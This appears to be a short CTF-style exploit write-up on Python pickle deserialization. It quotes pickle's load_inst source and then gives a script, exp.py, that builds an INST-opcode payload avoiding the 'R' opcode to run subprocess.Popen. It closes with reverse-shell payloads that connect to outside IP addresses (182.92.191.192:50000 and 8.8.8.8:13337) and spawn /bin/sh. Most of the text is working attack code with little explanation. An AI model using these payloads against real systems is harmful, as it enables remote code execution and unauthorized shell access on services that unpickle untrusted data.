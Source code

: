 - `load_inst()`

  - ```python
    def load_inst(self):
        # read from user input
        module = self.readline()[:-1].decode("ascii")
        name = self.readline()[:-1].decode("ascii")
        klass = self.find_class(module, name)
        # get args from stack
        args = self.pop_mark()
        self._instantiate(klass, args)
    dispatch[INST[0]] = load_inst
    ```

exp.py

```python
import pickle
import struct
import base64

def exploit(command):
    assert type(command) is list
    payload_prefix = b'''(('''
    payload_suffix = b'''lisubprocess\nPopen\n.'''
    payload_body = bytes()
    for c in command:
        payload_body += b"X" + bytes(struct.pack("<I", len(c))) + bytes(c, encoding="utf-8")
    payload = payload_prefix + payload_body + payload_suffix
    assert b'R' not in payload
    return payload

def main():
    payload = exploit([
        "python",
        "-c",
        "print('pwned!')"
    ])
    print("Payload:", payload)
    print("Length:", len(payload))
    print("Base64:", base64.b64encode(payload))
    x = pickle.loads(payload)
    print(x)

if __name__ == "__main__":
    main()
```

```python
# 反弹shell当然也可 都说了是rce了
import sys,socket,os,pty
s=socket.socket()
s.connect(("182.92.191.192",50000))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

payload = exploit([
    "python",
    "-c",
    'import sys,socket,os,pty;s=socket.socket();s.connect(("8.8.8.8", 13337));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")',
])
```